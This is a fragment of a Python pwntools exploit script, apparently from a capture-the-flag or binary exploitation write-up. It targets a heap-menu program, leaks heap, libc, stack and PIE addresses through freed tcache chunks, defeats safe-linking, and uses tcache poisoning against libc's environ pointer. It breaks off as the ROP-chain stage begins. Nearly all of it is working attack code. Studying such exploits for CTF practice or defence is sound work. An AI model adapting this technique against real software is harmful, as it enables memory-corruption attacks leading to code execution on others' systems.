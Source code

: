 ```python
# Allocate chunks
chunk_A = create(0x80)
chunk_B = create(0x80)
chunk_C = create(0x420)
chunk_D = create(0x80)

# Free to tcache
delete(chunk_A)
delete(chunk_B)
delete(chunk_C)

# Leak protected pointers
read(chunk_B)
leak1 = u64(p.recvn(6).ljust(8, b'\x00'))

read(chunk_A)
p.recvn(1)
leak2 = u64(p.recvn(6)[1:].ljust(8, b'\x00'))
key = leak2

# Calculate heap base
heap_base = (leak1 ^ key) - 0x12b0
log.success(f"Heap base: {hex(heap_base)}")

log.info("Stage 2: Libc leak")
read(chunk_C)
p.recvn(2)
leak3 = u64(p.recvn(6).ljust(8, b'\x00'))
libc.address = leak3 - 0x210b20
log.success(f"Libc base: {hex(libc.address)}")

log.info("Stage 3: Stack leak")
chunk_E = create(0x420)
environ = libc.symbols['environ']

# Tcache poisoning to environ
delete(chunk_D)
payload = p64((environ - 24) ^ ((heap_base + 0x1000) >> 12))
write(chunk_D, 0, payload)

chunk_F = create(0x80)
chunk_G = create(0x80)

# Read stack address
write(chunk_G, 0, b'A' * 24)
read(chunk_G)
p.recvn(0x19)
stack_leak = u64(p.recvn(8)[2:].ljust(8, b'\x00'))
rbp_addr = stack_leak - 0x138
log.success(f"Return address: {hex(rbp_addr)}")

log.info("Stage 4: PIE leak")
p.sendline(b'write 15')
p.sendline(b'0')
p.recvuntil(b'0x')
leak_elf = int(p.recv(12), 16)
elf.address = leak_elf - 0x4150
log.success(f"ELF base: {hex(elf.address)}")

log.info("Stage 5: ROP chain on stack")
chunk_H = create(0x30)
chunk_I = create(0x30)

```